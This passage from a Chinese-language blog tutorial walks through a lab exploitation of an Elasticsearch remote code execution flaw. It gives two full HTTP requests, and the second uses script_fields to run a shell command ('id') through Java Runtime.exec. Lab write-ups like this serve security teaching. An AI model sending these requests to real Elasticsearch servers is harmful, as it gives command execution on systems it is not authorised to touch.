         首先，该漏洞需要es中至少存在一条数据，所以我们需要先创建一条数据。

        访问靶场地址后抓取数据包。

        将数据包更改成下面的样式并放包。

```
POST /website/blog/ HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

{
  "name": "phithon"
}
```

        再将数据包更改成下面的样式，放包，可以看到成功执行了对应的命令。

```
POST /_search?pretty HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 343

{
    "size": 1,
    "query": {
      "filtered": {
        "query": {
          "match_all": {
          }
        }
      }
    },
    "script_fields": {
        "command": {
            "script": "import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"id\").getInputStream()).useDelimiter(\"\\\\A\").next();"
        }
    }
}
```

## 五、数据库安全总结导图

---


此篇文章接上篇文章：[https://blog.csdn.net/weixin_62808713/article/details/130444142](https://blog.csdn.net/weixin_62808713/article/details/130444142)

---

